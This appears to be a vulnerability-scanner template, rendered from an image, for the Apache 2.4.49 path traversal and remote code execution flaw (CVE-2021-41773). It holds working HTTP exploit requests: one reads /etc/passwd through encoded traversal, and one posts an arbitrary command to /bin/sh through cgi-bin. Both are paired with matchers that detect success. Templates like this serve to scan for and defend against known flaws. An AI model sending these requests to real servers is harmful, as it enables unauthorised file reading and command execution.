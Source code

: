 ### Matchers

**Type - regex**

- part - body
- regex
  1. root:.\*:0:0:
  2. druid:\*:1000:1000:
- condition - or

---

# Apache 2.4.49 - Path Traversal and Remote Code Execution

## Description

- A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the expected document root. If files outside of the document root are not protected by "require all denied" these requests can succeed. Additionally, this flaw could leak the source of interpreted files like CGI scripts. This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and not earlier versions.
- severity - high
- tags - cve,cve2021,lfi,rce,apache,misconfig,traversal,kev

## Requests

### Step - 1

```
GET /icons/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
Host: {{Hostname}}

```

### Step - 2

```
POST /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

echo Content-Type: text/plain; echo; {{cmd}}

```

### Matchers

**Type - regex**

- name - LFI
- regex
  1. root:.\*:0:0:
